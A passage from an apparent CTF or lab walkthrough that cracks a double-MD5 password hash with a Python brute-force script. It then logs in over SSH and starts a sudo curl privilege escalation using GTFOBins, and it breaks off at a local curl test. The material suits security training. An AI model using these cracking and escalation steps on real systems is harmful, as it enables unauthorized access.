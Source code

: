 ```python
            
            # First MD5 hash
            first_md5 = hashlib.md5(combined_string.encode()).hexdigest()
            
            # Second MD5 hash
            double_md5 = hashlib.md5(first_md5.encode()).hexdigest()
            
            if double_md5 == target_hash:
                print(f"\nMatch found:")
                print(f"Combined string: {combined_string}")
                print(f"First MD5: {first_md5}")
                print(f"Double MD5: {double_md5}")
                return

    print("No match found")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python script.py <username> <target_hash>")
        sys.exit(1)

    username = sys.argv[1]
    target_hash = sys.argv[2]
    find_matching_double_md5(username, target_hash)
```

We need to use it in the format of `username`, `target_hash`:

```
python3 reconstruct.py rgiskard dfb35334bf2a1338fa40e5fbb4ae4753

Match found:
Combined string: rgiskard2209
First MD5: b246f21ff68cae9503ed6d18edd32dae
Double MD5: dfb35334bf2a1338fa40e5fbb4ae4753
```

We got the password, let's go into ssh, we need to use the first MD5 hash:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317155933.png)

Let's check our privileges:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317160010.png)

We can use `curl` with wildcard as the user `dolivaw`, let's check GTFOBINS:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317164324.png)

Let's reproduce these steps, for example, the right path to go would be testing how this works first, let's point out at a test resource:

```
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ -o /tmp/test.txt
```
